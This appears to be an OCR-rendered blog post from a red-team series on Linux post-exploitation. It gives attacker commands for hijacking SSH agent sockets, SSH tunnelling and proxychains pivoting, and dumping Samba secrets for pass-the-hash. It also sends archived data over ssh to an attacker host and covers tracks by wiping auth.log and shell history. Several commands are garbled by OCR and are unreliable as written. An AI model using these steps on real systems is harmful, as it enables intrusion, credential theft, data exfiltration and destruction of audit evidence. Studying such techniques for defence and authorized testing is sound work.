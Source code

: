 ```yaml
---
layout: post
published: true
title: Linux Post Exploitation 10.4
tags:
  - PWP
  - Intermediate
  - Linux Post Exploitation
comments: true
---
```

## Linux Lateral Movement And Exfiltration & more.


## Introduction

**_In this blog post we will discuss, Linux lateral movements, Data Exfiltration, covering tracks._**


**Lateral Movement**

Its a technique to move around in a network in search of data or assets to exfiltrate and gain access to multiple target assets.


**SSH Hijacking**

For this method to be successful, the compromised machine should have an active SSH session established to another machine via Public Key Authentication.

```
# Attacker finds the SSHd process of the victim
ps uax|grep sshd
``
``
# Attacker looks for the SSH_AUTH_SOCK on victim's environment variables
grep SSH_AUTH_SOCK /proc/<pid>/environ
``
`` 
# Attacker hijack's victim's ssh-agent socket
SSH_AUTH_SOCK=/tmp/ssh-XXXXXXXXX/agent.XXXX ssh-add -l
``
`` 
# Attacker can log in to remote systems as the victim
ssh remote_system -l victim
```

[Click here to know more about it](https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/)


**SSH Tunneling**

It is used to port forward the attacker machine to access internal assets

Local port forwarding on port 8080 through SSH TUNNEL from attacker session to another machine.

``
sudo ssh  -L 127.0.0.1:8080:192,168.1,118:8080 user@<targetIP>
``
Remote forward on 8080 , forward to the attacker on 443

``
sudo ssh -R8080:127.0.0.1:443 user@<targetip>
``

**sshuttle** is an alternative for ssh tunneling

``
https://github.com/sshuttle/sshuttle
``

**Proxy chaining**

proxychains - redirect connections through proxy servers

To configure ProxyChains, we simply edit the main configuration file (/etc/proxychains.conf) and add our SOCKS4 proxy to it
we will append following line proxychains.conf file

``
socks4 127.0.0.1 1337
``
``
ssh -D1337 root@2.2.2.2 (For dynamic tunneling)
``

In a separate terminal run:
``
proxychains nmap -A -p- <10.10.10.139>
``
And you will be able to use nmap with proxychains to scan any internal host. Proxychains tunneling used to discover internal host services and internal networks.

**VPNPivot**
VPN Pivot sends and receives a fully encrypted TCP/IP stack over TCP stream socket, then the peers forward it into the desired device/host. The attacker explores the internal network as he belongs to it within a local IP address taken from the DHCP server or statically configured.

Installation

``
# git clone https://github.com/0x36/VPNPivot.git

cd VPNPivot

./autogen.sh

./configure

 make && make install
``
**Usage:**
``
./src/pivotc <server IP> <server port> <locale IP> [MTU]
``
``
The options are :

    server IP: the IP address of the server (pivots)
    
    server port: the port which the server is listening on
    
    locale IP: the IP address of the network interface connected to the unreachable network.
    
    MTU: the MUT is optional unless you're changing it in pivots
``




**Samba system secrets to take over domain admin**

``
tdbdump /var/lib/samba/private/secrets.tdb
``
If we get NTLM hash for any machine in the domain we can compromise it using pass the hash technic.

I will explain pass the hash in the upcoming blog post.


**Data Exfiltration**

Exfiltration of sensitive data from the target machine, and owning that data to see severity.

There are many techniques to move data from the target machine to attacker machine


** Using SSH**

Start nc listner in attaker machine

``
nc -nlvp 80 > Targetdata.tmp
``

In target machine

``
tar zcf - /tmp/datafolder | ssh root@<attackerIP> "cd /tmp; tar zxpf -"
``
 
**

## Cover tracks

Washing hands, after did a sin. 

Clear auth.log file
``
echo "" /var/log/auth.log
``
Clear current user bash history
``
echo "" -/.bash history
``
Delete .bash_history file
``
rm -/.bash histor/ -rf
``
Clear current session history
``
history -c
``
Set history max lines to 0
``
export HISTFILESIZE=O
``
Set history max commands to 0
``
export HISTSIZE=O
``
To kill current session
``
kill -9 $$
``
To permanently send all bash history commands to /dev/null
``
ln /dev/null -/.bash_history -sf
``


There are many other techniques also, you can check them yourself and keep practice.

## Conclusion

_**In this blog post we discussed some lateral movement and data exfiltration techniques, we will discuss persistence in upcoming red team series.**_










































